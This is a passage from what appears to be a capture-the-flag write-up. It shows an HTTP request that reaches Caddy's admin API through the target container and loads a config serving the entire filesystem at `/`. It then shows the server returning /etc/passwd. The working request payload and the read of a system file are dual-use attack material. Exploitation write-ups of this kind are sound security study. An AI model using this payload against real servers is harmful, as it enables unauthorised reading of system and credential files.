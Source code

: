 Okay, let's try to just read the flag. We are root inside the container, so we can read almost every file. The next request creates file_server at `/` directory.
```http
POST /127.0.0.1:2019/load HTTP/1.1
Host: [container]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/json
Content-Length: 510
{
    "http": {
      "servers": {
        "example": {
          "listen": [":80"],
          "routes": [
            {
              "handle": [
                {
                  "handler": "file_server",
                  "root": "/"
                }
              ]
            }
          ]
        }
      }
    }
  }
}
```

And we can read files with simple requests: `http://[container]/etc/passwd`

```http
HTTP/1.1 200 OK
Accept-Ranges: bytes
Content-Length: 702
Etag: "d6t3iycrbpc0ji"
Last-Modified: Sat, 04 Jan 2025 07:04:48 GMT
Server: Caddy
Vary: Accept-Encoding
Date: Sat, 24 May 2025 17:19:42 GMT
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
```